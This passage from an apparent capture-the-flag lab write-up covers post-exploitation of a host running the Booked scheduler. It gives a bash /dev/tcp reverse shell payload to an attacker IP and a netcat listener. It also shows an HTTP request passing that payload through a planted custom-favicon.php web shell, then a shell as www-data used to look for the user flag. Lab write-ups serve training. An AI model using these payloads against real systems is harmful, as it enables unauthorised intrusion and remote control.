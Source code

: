## post exploitation
### get reverse shell
> A lot outgoing ports are filtered.
{: .prompt-danger }

> Port `8003` is allowed for outgoing connections.
{: .prompt-info }

reverse shell payload: `bash -c 'bash -i >& /dev/tcp/192.168.49.174/8003 0>&1'`

#### start listener on attacker machine
```bash
$ nc -lvp 8003
listening on [any] 8003 ...
```

#### execute reverse shell
```bash
GET /booked/Web/custom-favicon.php?cmd=bash%20-c%20%27bash%20-i%20>%26%20%2fdev%2ftcp%2f192%2e168%2e49%2e174%2f8003%200>%261%27 HTTP/1.1
Host: 192.168.174.64:8003
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=gj43975vng5nhdc2gdjs1hhscr; new_version=v%3D2.7.5%2Cfs%3D1644596651
Connection: close
```

#### catch connect from target
```bash
$ nc -lvp 8003
listening on [any] 8003 ...
192.168.174.64: inverse host lookup failed: Unknown host
connect to [192.168.49.174] from (UNKNOWN) [192.168.174.64] 43140
bash: cannot set terminal process group (621): Inappropriate ioctl for device
bash: no job control in this shell
www-data@zino:/var/www/html/booked/Web$ whoami
whoami
www-data
```

### get first flag
```bash
www-data@zino:/var/www/html/booked/Web$ cd /home
cd /home
www-data@zino:/home$ ls
ls
peter
www-data@zino:/home$ cd peter
cd peter
www-data@zino:/home/peter$ ls
ls
access.log
auth.log
error.log
ftp
local.txt
misc.log
www-data@zino:/home/peter$ cat local.txt
```